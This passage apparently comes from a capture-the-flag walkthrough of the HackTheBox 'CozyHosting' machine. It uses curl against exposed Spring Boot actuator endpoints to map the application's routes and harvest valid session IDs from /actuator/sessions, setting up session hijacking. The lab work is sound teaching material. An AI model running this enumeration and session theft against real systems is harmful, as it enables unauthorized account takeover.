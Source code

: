     
    
    oxdf@hacky$ curl -s http://cozyhosting.htb/actuator/mappings | jq -c '.contexts.application.mappings.dispatcherServlets
    .dispatcherServlet | .[] | [.handler, .predicate]'
    ["Actuator web endpoint 'beans'","{GET [/actuator/beans], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"]
    ["Actuator web endpoint 'health-path'","{GET [/actuator/health/**], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"]
    ["Actuator web endpoint 'mappings'","{GET [/actuator/mappings], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"]
    ["Actuator root web endpoint","{GET [/actuator], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"]
    ["Actuator web endpoint 'env'","{GET [/actuator/env], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"]
    ["Actuator web endpoint 'env-toMatch'","{GET [/actuator/env/{toMatch}], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"]
    ["Actuator web endpoint 'sessions'","{GET [/actuator/sessions], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"]
    ["Actuator web endpoint 'health'","{GET [/actuator/health], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"]
    ["org.springframework.boot.autoconfigure.web.servlet.error.BasicErrorController#errorHtml(HttpServletRequest, HttpServletResponse)","{ [/error], produces [text/html]}"]
    ["htb.cloudhosting.compliance.ComplianceService#executeOverSsh(String, String, HttpServletResponse)","{POST [/executessh]}"]
    ["org.springframework.boot.autoconfigure.web.servlet.error.BasicErrorController#error(HttpServletRequest)","{ [/error]}"]
    ["ParameterizableViewController [view=\"admin\"]","/admin"]
    ["ParameterizableViewController [view=\"addhost\"]","/addhost"]
    ["ParameterizableViewController [view=\"index\"]","/index"]
    ["ParameterizableViewController [view=\"login\"]","/login"]
    ["ResourceHttpRequestHandler [classpath [META-INF/resources/webjars/]]","/webjars/**"]
    ["ResourceHttpRequestHandler [classpath [META-INF/resources/], classpath [resources/], classpath [static/], classpath [public/], ServletContext [/]]","/**"]
    

`/addhost` and `/executessh`, but I’ll come back to those.

`/actuator/env` lead what looks like some configuration values, but a lot of
the interesitng ones (and some not interesting ones) are masked, shown as
strings of “*”.

`/actuator/sessions` is immediately interesting:

    
    
    oxdf@hacky$ curl -s http://cozyhosting.htb/actuator/sessions | jq .
    {
      "1AB37C626597DADB7425C1273F7DA678": "kanderson"
    }
    

If try and fail to log in a few times, more sessions show up:

    
    
    oxdf@hacky$ curl -s http://cozyhosting.htb/actuator/sessions | jq .
    {
      "EEE571008BF31ADB2E904F4E8CBF5ABB": "UNAUTHORIZED",
      "E1CE43B04CC6C958A7496877E331256D": "UNAUTHORIZED",
      "2926B07C6C6B8CB0B92A5AE5DF5AE2B6": "UNAUTHORIZED",
      "B3C02C5C13A99CCEFC3AF469D28374C9": "UNAUTHORIZED",
      "C987ACE5C53875AE151372328A544FAF": "kanderson"
    }
    